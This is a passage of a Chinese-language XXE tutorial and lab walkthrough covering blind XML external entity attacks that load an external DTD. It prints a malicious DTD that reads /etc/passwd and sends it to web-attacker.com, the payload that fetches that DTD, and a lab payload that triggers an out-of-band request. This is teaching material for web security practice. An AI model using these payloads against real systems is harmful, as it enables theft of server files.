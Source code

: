 1. 一个恶意DTD的示例，该DTD可用于泄漏/etc/passwd文件的内容：  
  
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;

```  
  
此DTD执行以下步骤： 1、定义名为的XML参数实体file，包含的内容/etc/passwd文件。 2、定义名为的XML参数实体eval，包含另一个XML参数实体的动态声明，该实体名为exfiltrate。该exfiltrate将通过向攻击者的Web服务器发出包含file URL查询字符串中的实体。 3、使用eval实体的动态声明，它将导致exfiltrate要执行的实体。 4、使用exfiltrate实体，以便通过请求指定的URL来计算其值。  
  
然后攻击者必须在他们控制的系统上托管恶意DTD，通常是将其加载到自己的Web服务器上。  
  
例如，攻击者可能在以下URL提供恶意DTD：  
```
http://web-attacker.com/malicious.dtd

```  
  
3、最后攻击者必须向易受攻击的应用程序提交以下XXE有效负载：  
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>

```  
  
4、这个XXE有效负载声明了一个名为xxe的XML参数实体，然后在DTD中使用该实体。这将导致XML解析器从攻击者的服务器获取外部DTD并内联解释它。然后执行恶意DTD中定义的步骤，并将/etc/passwd文件传输到攻击者的服务器。  
  
5、此技术可能不适用于某些文件内容，包括/etc/passwd文件中包含的换行符。因为一些XML解析器使用API来获取外部实体定义中的URL，该API验证允许出现在URL中的字符。在这种情况下，可以使用FTP协议代替HTTP。有时无法过滤包含换行符的数据，因此可以将目标改为/etc/hostname之类的文件  
### 实验5：盲XXE-外部DTD  
  
**实验目标：**  
- 此实验室具有一个 “Check stock（库存检查）” 功能，它可以解析 XML 输入，但不会显示结果。  
  
- 若要解决实验室问题，请泄露/etc/hostname  
文件的内容。  
  
将请求数据包转发至 Repeater 功能模块，尝试注入经典的 XML 外部实体，实体被禁止使用。![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjlMTxZZZJUZ2a3t0pFmJUdhlcpZupO25ia7t8qwSdPBr4nXxVgeOvfUgA/640?wx_fmt=png&from=appmsg "")  
  
  
以 “参数实体” 的形式重新构造攻击载荷，并尝试触发带外交互：  
```
<!DOCTYPE abc [ <!ENTITY % carsaid SYSTEM "http://你的域"> %carsaid; ]>

```  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjlQe6I07rnu1mDjFBXd5Me8ZXkB5OgmKyLFXicPMX8fsEtzpI1ic38EVzQ/640?wx_fmt=png&from=appmsg "")  
成功![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjlWxhicwmjxLgYW3F4szvHV2wCN3ibG9DgjnRtQuhhLbtoriaF6HunUdeBA/640?wx_fmt=png&from=appmsg "")  
  
  